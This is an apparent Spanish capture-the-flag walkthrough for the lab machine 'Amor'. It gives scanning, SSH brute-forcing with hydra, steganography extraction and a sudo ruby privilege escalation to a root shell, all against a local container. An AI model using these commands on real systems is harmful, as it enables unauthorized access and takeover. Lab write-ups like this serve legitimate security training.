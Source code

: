 Maquina: Amor 

Autor: Romabri 

Dificultad: Facil

ping 172.17.0.2 -c 1

nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2
Vemos que esta abierto el puerto 22 SSH y el puerto 80 HTTP

accedemos a la pagina web
https://172.17.0.2

Usamos Gobuster para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio

Gobuster no ha encontrado nada pero en una de las entradas vemos algo interesante:
Tenemos dos usaurios

Hacemos un ataque de fuerza bruta con Hydra
hydra -l carlota -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2

Ahora accedemos vía SSH
ssh carlota@172.17.0.2

vemos que hay este directorio /home/carlota/Desktop/fotos/vacaciones y en dicho directorio hay una imagen, la descargamos.

Este comando nos permite descargar archivos desde ssh

scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/ankb/Downloads/

si abrimos la imagen nos encontramos esto:

Este comando nos extrae información oculta en la imagen
steghiede extract -sf imagen.jpg 

Nos pide que pongamos contraseña si no ponemos nada y damos a enter nos ha generado un archivo secret.txt. Dentro del archivo secret.txt encontramos algo cifrado en base 64

Lo desciframos de la siguiente forma: 

echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 --decode

Cuando hacemos esto nos aparece lo siguiente:

Podría ser una contraseña pero para el usuario Juan no funciona vamos a seguir mirando dentro del usuario Carlota

Si escribimos el comando env vemos algo extraño

El texto cita a un tal oscar vamos a probar la contraseña que hemos encontrado dentro de la imagen con este usaurio

ssh oscar@172.17.0.2

Vamos al escritorio de oscar y vemos un achivo con un texto

Si hacemos un sudo -l nos aparece lo siguiente

Ejecutamos el siguiente comando 

sudo /usr/bin/ruby -e 'exec "/bin/sh"'

Whoami
